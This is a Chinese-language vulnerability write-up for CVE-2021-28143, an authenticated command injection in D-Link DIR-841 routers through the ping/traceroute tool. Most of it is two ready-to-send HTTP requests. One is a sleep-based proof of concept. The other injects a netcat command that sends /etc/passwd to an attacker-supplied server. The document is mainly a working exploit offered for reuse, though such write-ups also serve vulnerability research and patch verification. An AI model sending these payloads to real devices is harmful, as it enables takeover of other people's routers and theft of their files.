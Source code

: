 # 

# D-Link DIR-841 命令注入漏洞 CVE-2021-28143

## 漏洞描述

D-Link DIR-841 3.03和3.04 存在经过身份验证的命令注入，通过“系统工具”（ping/ping6/traceroute）命令注入，可导致攻击者进行完全控制设备。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2021-28143
- https://github.com/vitorespf/Advisories/blob/master/DLINK-DIR-841-command-injection.txt

## 漏洞复现

poc：

```
POST /jsonrpc HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Digest username="admin", realm="domain", nonce="4784226", uri="/jsonrpc", response="84799b55020cf2c53e28214e3d60b899", qop=auth, nc=00000035, cnonce="bPzBB3mcvSb51Ijx"
Content-Length: 156
Origin: IP
Connection: close
Referer: http://ip-address:9821/admin/index.html
Cookie: user_ip=0.0.0.0; device_mode=router; user_login=admin; device-session-id=<session>

{"jsonrpc":"2.0","method":"write","params":{"id":166,"data":{"host":"'127.0.0.1 & sleep 5'","count":1,"is_ipv6":false,"max_ttl":30,"nqueries":2,"waittime":3},"save":true},"id":757}
```

Exfiltrating files：

```
POST /jsonrpc HTTP/1.1
Host: IP
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: application/json, text/plain, */*
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Authorization: Digest username="admin", realm="domain", nonce="4784226", uri="/jsonrpc", response="84799b55020cf2c53e28214e3d60b899", qop=auth, nc=00000035, cnonce="bPzBB3mcvSb51Ijx"
Content-Length: 156
Origin: IP
Connection: close
Referer: http://ip-address:9821/admin/index.html
Cookie: user_ip=0.0.0.0; device_mode=router; user_login=admin; device-session-id=<session>

{"jsonrpc":"2.0","method":"write","params":{"id":166,"data":{"host":"'127.0.0.1 & nc SERVER-IP 1234 < /etc/passwd'","count":1,"is_ipv6":false,"max_ttl":30,"nqueries":2,"waittime":3},"save":true},"id":757}
```


